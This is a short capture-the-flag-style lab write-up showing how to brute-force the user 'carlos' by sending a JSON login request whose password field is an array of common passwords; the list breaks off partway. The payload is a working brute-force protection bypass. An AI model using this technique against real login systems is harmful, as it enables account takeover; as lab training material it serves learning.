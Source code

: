  To solve the lab, brute-force Carlos's password, then access his account page

 1. make a login attempt to study process.
 note that the username and password are sent at json format. lets change the password "value" with an [array] of "values" from password list.

```
{"username":"carlos","password":[
"123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"joshua",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
"123321",
"mustang",
"1234567890",
"michael",
"654321",
"superman",
"1qaz2wsx",
"7777777",
"121212",
"000000",
"qazwsx",
"123qwe",
"killer",
"trustno1",
"jordan",
"jennifer",
"zxcvbnm",
"asdfgh",
"hunter",
"buster",
"soccer",
"harley",
"batman",
"andrew",
"tigger",
"sunshine",
"iloveyou",
"2000",
"charlie",
"robert",
"thomas",
"hockey",
"ranger",
"daniel",
"starwars",
"klaster",
```